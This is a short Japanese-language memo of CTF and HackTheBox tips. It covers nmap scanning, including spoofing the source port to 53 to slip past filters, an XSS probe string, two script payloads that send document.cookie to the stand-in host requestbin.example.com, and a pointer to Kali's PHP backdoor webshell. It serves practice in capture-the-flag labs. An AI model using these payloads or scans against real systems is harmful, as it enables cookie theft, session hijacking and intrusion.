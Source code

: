 # Memo
### ctfとかhtbとか  

#### nmap

```sudo nmap -sS -p- IP```  
全ポートのスキャン(時間はかかる)  

```nmap -sV -A -p 21-25,35,43,69,80-88,107-110,115,118,123,137-139,143,156,161-162,220,384,389,443-445,465,514,530,543-544,591,593,636,901-903,953,992,995,1025,1433-1434,1812,3000,3306,3389,3535,5000,5432,7777,8008,8080,8443,8888 IP```  
> -sV -A  

でバージョン情報とかを得るようになる(指定しているポートは可能性のありそうなポート)  

```nmap -sV -A -g 53 -p 21-25,35,43,69,80-88,107-110,115,118,123,137-139,143,156,161-162,220,384,389,443-445,465,514,530,543-544,591,593,636,901-903,953,992,995,1025,1433-1434,1812,3000,3306,3389,3535,5000,5432,7777,8008,8080,8443,8888 IP```  
> -g 53  

で送信元ポートを53(DNS)に偽装する  

<br>  

#### XSS  
```'';!--"<XSS>=&{()}```  
> 上を入力して表記が崩れたらXSSいけるかも  
> 参考 https://jpcertcc.github.io/OWASPdocuments/CheatSheets/XSSFilterEvasion.html#XSS_Locator  

```<script>fetch('https://requestbin.example.com?data=${document.cookie}')</script>```  
> 上のはCookieをrequestbin.example.com(例なので存在しない)に送信するスクリプト  
> 上のrequestbin.example.comに対応するものは例えばhttps://requestbin.com/  

```<script src="data:,document.location='https://requestbin.example.com?data='+document.cookie"></script>```  
> こっちも有り  

<br>  

#### webshell   
```/usr/share/webshells/php/simple-backdoor.php```
> Kaliにはwebshellも用意されている  
